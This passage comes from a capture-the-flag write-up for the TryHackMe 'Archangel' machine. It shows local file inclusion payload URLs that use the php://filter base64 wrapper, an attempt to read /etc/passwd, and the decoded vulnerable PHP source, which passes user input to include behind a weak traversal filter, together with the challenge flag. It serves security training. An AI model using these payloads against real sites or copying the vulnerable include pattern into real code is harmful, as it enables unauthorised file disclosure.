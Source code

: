 
### LFI PHP Wrappers

The URL shown can be vulnerable to several things, such as SQL injection, directory traversal, RFI and LFI. Testing one by one I find most of them end with a `Not Allowed` response.

(https://spy0x7.cf/assets/archangel/notallowed.png)


Testing [PHP Wrappers](https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601) for LFI, I find that it is possible to convert the page to base64

`http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/mrrobot.php`

(https://spy0x7.cf/assets/archangel/base64.png)


Trying to read /etc/passwd still fails, so I try to read the test.php file instead to see what filtering is happening

`http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php`

(https://spy0x7.cf/assets/archangel/base.png)


This gives a long base64 value. I save it to my machine then decrypt it


root@kali:~/ctfs/thm/archangle# cat base | base64 -d

<!DOCTYPE HTML>
<html>

<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>
 
    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
        <?php

            //FLAG: thm{explo1t1ng_lf1}

            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
            if(isset($_GET["view"])){
            if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
                include $_GET['view'];
            }else{

                echo 'Sorry, Thats not allowed';
            }
        }
        ?>
    </div>
</body>
